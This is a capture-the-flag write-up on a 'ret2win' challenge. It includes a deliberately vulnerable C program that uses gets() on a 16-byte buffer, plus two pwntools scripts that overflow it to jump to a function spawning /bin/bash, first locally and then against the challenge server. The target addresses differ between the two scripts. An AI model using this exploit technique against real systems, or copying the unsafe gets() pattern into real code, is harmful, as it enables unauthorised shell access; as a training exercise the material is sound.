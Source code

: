 


-----

We are given two files, `babybufov.c` and `babybufov`.

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

From the above, `main()`  makes a call `vuln()` which allocates a buffer, `buf`, of length 16. The `gets()` method is then called to allocate data to `buf` based on user input. 

This is a classic [Ret2Win](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win) binary exploitation challenge with the goal being to exploit a vulnerability within the binary and call an uninvoked function. In this case, our uninvoked function is `target()` which executes `/bin/bash` when it is called.

Fuzzing the program, we get it to crash at **24 bytes**.

Running `objdump` on the program, we get `0x080491a6` as the address for the `target` function. We can therefore create our local exploit:

```python
from pwn import *

# Set up pwntools for the correct architecture
context(arch='i386', os='linux')

# Load the binary
elf = ELF('./babybufov')

# Start the process
p = process('./babybufov')

# Address of 'target' function
target_address = 0x080491a6

# Offset to reach EIP
offset = 24 + 4

# Create the payload
padding = b'A' * offset  # Adjusting to 24 bytes to test overflow beyond buffer
payload = padding + p32(target_address)  # Overwrite return address with 'target' function address

print(payload)
print(p32(target_address))

# Send the payload
p.recvuntil(b'Gimme some data!')  # Wait for the prompt
p.sendline(payload)  # Send the payload to overflow

# Drop into an interactive shell
p.interactive()
```

![[huntress/2024/images/Pasted image 20241017125529.png]]

We can edit our script to run against the provided instance to retrieve the flag:

```python
from pwn import *

# Set up pwntools for the correct architecture
context(arch='i386', os='linux')

# Load the binary
elf = ELF('./babybufov')

# Start the process
p = remote('challenge.ctf.games', 31194)    # remote

# Address of 'target' function
target_address = 0x80491f6

# Offset to reach EIP
offset = 24 + 4

# Create the payload
padding = b'A' * offset  # Adjusting to 24 bytes to test overflow beyond buffer
payload = padding + p32(target_address)  # Overwrite return address with 'target' function address

print(payload)
print(p32(target_address))

# Send the payload
p.recvuntil(b'Gimme some data!')  # Wait for the prompt
p.sendline(payload)  # Send the payload to overflow

# Drop into an interactive shell
p.interactive()

```

```console
$ python3 exploit.py

...
Jackpot!
$ cat flag
flag{4cd3b4079393e861af489ca063373f98}
```